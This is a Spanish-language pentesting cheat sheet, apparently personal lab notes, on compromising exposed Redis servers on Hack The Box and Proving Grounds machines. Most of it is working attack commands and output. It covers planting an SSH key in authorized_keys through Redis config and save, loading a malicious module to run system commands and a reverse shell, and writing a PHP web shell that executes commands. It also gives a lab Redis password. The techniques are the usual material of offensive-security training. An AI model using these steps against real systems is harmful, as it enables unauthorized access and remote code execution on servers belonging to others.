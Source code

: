 
## DESCRIPTION

ENUMERACION: LA CONTRASEÑA SUELE ESTAR /etc/redis/redis.conf

Si tenemos acceso a LFI podemos buscarla

Interesante para ver donde podemos escribir: /etc/apache2/sites-enabled/000-default.conf

POR DEFECTO EN /opt/redis-file

#### Mas información
* https://book.hacktricks.xyz/network-services-pentesting/6379-pentesting-redis
*  https://0xdf.gitlab.io/2020/03/14/htb-postman.html https://book.hacktricks.xyz/network-services-pentesting/6379-pentesting-redis

## EXPLOITATION

Para conectar:

```
nc -vn 10.10.10.10 6379
# o
redis-cli -h 10.10.10.10 # sudo apt-get install redis-tools
```

### OPTION 1: WRITE SSH KEY

NECESTAMOS LOGIN (puede ser sin usuario si la app quiere)

VERSIÓN: 6379/tcp  open  redis   Redis key-value store 4.0.9

EXISTEN OTROS EXPLOITS: https://book.hacktricks.xyz/network-services-pentesting/6379-pentesting-redis


EXPLICACIÓN: Dado que puedo escribir en redis, básicamente tengo escritura casi arbitraria en el sistema de archivos como el usuario redis se está ejecutando como escribiendo la base de datos a un archivo con el comando save. La razón por la que es "casi arbitraria" es porque no puedo escribir limpiamente un archivo, sino que puedo escribir mi contenido con basura a ambos lados. Pero hay muchos ataques basados en archivos en Linux que son robustos a la basura extra. Por ejemplo, escribir una clave SSH. sshd ignorará las líneas basura, y procesará las líneas que tengan una clave pública en el archivo authorized_keys.

![[Pasted image 20230607132642.png]]


PASO A PASO
1. Nos conectamos al redis: redis-cli -h 10.10.10.160
2. EN OTRA TERMINAL: generamos las claves → ssh-keygen -t rsa → le ponemos un nombre y la podemos dejar sin contraseñas

![[Pasted image 20230607132648.png]]
3. En la terminal anterior, tras la generación de claves ejecutamos → 
4
```
echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n") > spaced_key.txt 
```

5. En la primera terminal (del redis) ejcutamos:

```
config set dir /var/lib/redis/.ssh
config set dbfilename "authorized_keys"
save
```


![[Pasted image 20230607132703.png]]

5. Nos conectamos por ssh con la clave privada →
 ```
 ssh -i id_rsa redis@10.10.10.160
```


### OPTION 1: LOAD REDIS MODULE
Using https://book.hacktricks.xyz/pentesting/6379-pentesting-redis#load-redis-module

```
# clone repo, make

# need to upload the module.so

# we can use ftp to upload

Uploaded module.so on ftp pub/

Default path is /var/ftp

Using redis-cli

192.168.224.93:6379> module load /var/ftp/pub/module.so

192.168.224.93:6379> modue list

(error) ERR unknown command `modue`, with args beginning with: `list`,

192.168.224.93:6379> module list

1) 1) "name"

2) "system"

3) "ver"

4) (integer) 1

192.168.224.93:6379> system.exec "whoami;id;hostname;uname -a"

"pablo\nuid=1000(pablo) gid=1000(pablo) groups=1000(pablo)\nsybaris\nLinux sybaris 3.10.0-1127.19.1.el7.x86_64 #1 SMP Tue Aug 25 17:23:54 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux\n"

192.168.224.93:6379>

192.168.224.93:6379> system.exec "mkdir /home/pablo/.ssh"

192.168.224.93:6379> system.exec 'echo "ssh-rsa <<id_rsa.pub>> > /home/pablo/.ssh/authorized_keys'

[OR]

192.168.224.93:6379> system.rev IP PORT
```


### OPTION 3: WRITE WEB SHELL

```
root@Urahara:~# redis-cli -h 10.85.0.52
10.85.0.52:6379> config set dir /usr/share/nginx/html
OK
10.85.0.52:6379> config set dbfilename redis.php
OK
10.85.0.52:6379> set test "<?php phpinfo(); ?>"
OK
10.85.0.52:6379> save
OK
```


Si da error puede ser por que no tenemos permisos, si tenemos un LFI previamente conseguido entonces podemos ver en que directorios poemos escribir de redis y subir ahí la web shell para luego acceder con el LFI.

Por defecto en /opt/redis-file

```
192.168.220.166:6379> auth 'Ready4Redis?'
OK
192.168.220.166:6379> config set dir /opt/redis-files
OK
192.168.220.166:6379> config set dbfilename test.php
OK
192.168.220.166:6379> set test "<?php system($_GET['cmd']); ?>"
OK
192.168.220.166:6379> save
OK
192.168.220.166:6379> 

```

![[Pasted image 20230706144208.png]]
Ejemplo con wordpress LFI wordpress site editor 1.1.1

![[Pasted image 20230706144146.png]]


## MACHINES

* Hack The Box: 
* PG: Sybaris

**!!NOTA IMPORTANTE!!** 